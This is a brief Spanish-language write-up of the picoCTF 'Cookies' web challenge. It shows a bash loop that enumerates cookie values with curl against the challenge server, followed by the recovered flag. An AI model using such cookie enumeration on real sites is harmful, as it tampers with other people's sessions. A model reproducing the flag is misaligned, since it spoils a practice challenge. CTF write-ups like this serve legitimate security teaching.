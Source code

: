 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
## Solución
```
charlyvr-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
charlyvr-picoctf@webshell:~$
```
## Bandera
```
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
```
